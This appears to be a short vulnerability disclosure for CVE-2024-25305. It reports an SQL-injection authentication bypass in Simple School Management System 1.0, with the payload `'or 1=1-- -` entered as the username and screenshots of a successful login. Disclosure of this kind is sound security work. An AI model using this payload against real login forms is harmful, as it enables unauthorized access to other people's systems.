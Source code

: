 # CVE-2024-25305 - Simple School Managment System - Authentication Bypass
+ **Exploit Title:** Simple School Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25305

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/". 

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 123439](https://github.com/tubakvgc/CVEs/assets/74067343/376ef47a-ac0a-49a2-b5db-e448ae3b3262)

![Ekran görüntüsü 2024-02-01 123556](https://github.com/tubakvgc/CVEs/assets/74067343/6b76c3ee-6c53-4634-8321-37fa68bd3331)

